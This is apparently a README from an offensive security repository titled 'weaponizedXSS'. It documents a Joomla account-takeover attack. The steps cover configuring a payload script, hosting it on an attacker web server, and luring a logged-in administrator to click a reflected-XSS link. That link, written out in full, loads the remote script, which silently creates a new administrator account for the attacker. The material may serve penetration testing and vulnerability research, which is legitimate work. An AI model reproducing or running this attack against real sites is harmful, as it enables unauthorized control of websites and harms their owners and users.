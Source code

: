 # [authn] Create New Admin User (ATO)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccJoomla.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 12 characters)

    `newAccEmail` - email of the user account to be created

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/createAdminAccJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting the payload

5. [post exploit] attacker logs into target Joomla site using specified credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/CreateNewAdmin/screenshots/Joomla_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/5276712b-9124-479b-9e7c-be783178d47a
